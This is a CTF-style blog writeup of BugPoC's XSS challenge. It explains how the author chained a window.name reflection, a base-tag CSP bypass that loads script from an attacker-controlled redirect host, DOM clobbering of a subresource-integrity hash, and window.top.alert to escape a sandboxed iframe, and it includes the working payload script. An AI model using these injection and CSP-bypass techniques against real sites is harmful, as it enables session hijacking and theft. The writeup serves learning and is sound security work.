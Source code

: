 ```yaml
---
layout: post
title:  "BugPoC's XSS Challenge Writeup"
date:   2020-11-09 11:09:00 +0545
author: machinexa
image: /writeups/assets/images/xsschallenge.jpeg
category: Writeups
---
```


## Description
From the time of the announcement, I was excited about the new challenge from BugPoC. The challenge was to pop alert box with origin as text, bypassing CSP, and sandboxed iframe. Also, the alert must work in the latest version of Chrome only. I started solving immediately after the challenge was released. The challenge URL is:  [wacky.buggywebsite.com](https://wacky.buggywebsite.com/)

### Finding Reflection
So, my first task was to find reflection or DOM XSS sink. Visiting the site, the first thing I noticed was the webpage was only available for Chrome, so I opened it in Chromium. Here's what it looked like: 

![Homepage](/writeups/assets/images/xsschallenge_homepage.png)

I tried writing some text and it was successfully reflected. I immediately tried some tags but nope it didn't work. The regex was replacing `&*<>%` characters with a blank string. The thing to note was that it was reflected as `<iframe src="frame.html?param=Hello, World!" name="iframe">`  

I thought about injecting event handler and attributes like srcdoc but I don't think any will work because popping alert won't be easy, will it?
Besides, I found about frame.html from the reflection so I started to analyze its source code. There were lots of scripts and the one that was important was:
```js
window.fileIntegrity = window.fileIntegrity || {
	'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
	'algorithm' : 'sha256',
	'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
	'creationtime' : 1602687229
}

// verify we are in an iframe
if (window.name == 'iframe') {
	// securely load the frame analytics code
	if (fileIntegrity.value) {
		// create a sandboxed iframe
		analyticsFrame = document.createElement('iframe');
		analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
		analyticsFrame.setAttribute('class', 'invisible');
		document.body.appendChild(analyticsFrame);

		// securely add the analytics code into iframe
		script = document.createElement('script');
		script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
		script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
		script.setAttribute('crossorigin', 'anonymous');
		analyticsFrame.contentDocument.body.appendChild(script);
	}
} else {
	...
}
```
<br>
The first thing I tried was to change the window.name to "iframe" from dev tools, then refresh the page. You might think it's self XSS as user interaction is required but it is not:

![window.name](/writeups/assets/images/xsschallenge_windowname.png)

It is a special global variable because it is persistent across cross-domain. Thus, an attacker can change the variable, and it will be available even after refreshing or visiting a new page. After checking its source, we got 2 reflections and 1 partial reflection. The important was unsanitized input reflected in `<title>` while the rest were either useless or sanitized.

### Bypassing CSP and SRI
After getting unsanitized reflection, I tried to escape from the title then pop alert. I used this payload `</title><script>alert(1)</script>` but unfortunately, the Chrome's great CSP blocked it. Using CSP evaluator from Google, I found out this CSP was faulty. The following message caught my attention:
```
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker-controlled domain. Can you set it to 'none' or 'self'?
```
<br>
Injecting the `<base>` tag will cause the script to be fetched from an attacker-controlled domain, thus executing arbitrary javascript. If you remember the code above, there is actually a script tag that fetches `frame-analytics.js`. Everything was ready for my plan and I was hoping for an alert but nope. After injection, the only thing I got was another error which got me frustrated.  

![Integrity error](/writeups/assets/images/xsschallenge_sri.png)

It was an integrity error which is related to SRI (Sub Resource Integrity), which protects against compromised script sources. In nutshell, it's a hash of the entire javascript file. There was no way I could generate the same hash, and a collision was impossible as the browser only supports collision resistant hashes. However, if I could change `window.fileIntegrity.value`, maybe I could set the value to the hash of my file.  

The id and value attribute of `<input>` directly affects javascript variables. Its a well known method of DOM Clobbering commonly used in CTFs. So, I used the following script: 
```html
<script>
window.name = "iframe";
payload = encodeURI('</title><base href="https://wzqkyz5l1054.redir.bugpoc.ninja/"><input id="fileIntegrity" value="3ZRbpxB3ZH9LPg3CX6ZGzidaPOFZOSpeK06lI1eZOLE=">');
window.location = "https://wacky.buggywebsite.com/frame.html?param=" + payload; //
</script>
```
And guess what happened? I got another error :rage:

### Magical alert box
Since, allow-modals wasn't set I tried experimenting with different frames and window objects. By default, Chrome blocks call to alert in the sandboxed environment ([Blocked modal dialogs](https://googlechrome.github.io/samples/block-modal-dialogs-sandboxed-iframe/)). Searching for a bypass, I didn't get anything useful, however, it was very easy to bypass, I just needed to alert on the upper frame. For that I used, `window.top.alert()`.  

Finally, the moment I was waited for after trying for so long came. I got the **magical alert box**, it was truly amazing. 

![Magical alert box](/writeups/assets/images/xsschallenge_alert.png)


## Takeaway 

* When going for XSS, search for as much reflection and sink as you can.
* Make sure to always review CSP policies. 
* Never stop learning, you find something new each day. 

The challenge was awesome, and I loved it. I also learned a lot of new things. Also, thanks to:
* BugPoC and Amazon for hosting and sponsoring the challenge.
* LiveOverflow for an awesome window.name trick
* Portswigger for awesome DOM Clobbering article
* Naina for teaching me about weird javascript techniques.

By the way, if you haven't watched [Liveoverflow's video](https://www.youtube.com/watch?v=L1RvK1443Yw&t=307s), go watch it now.
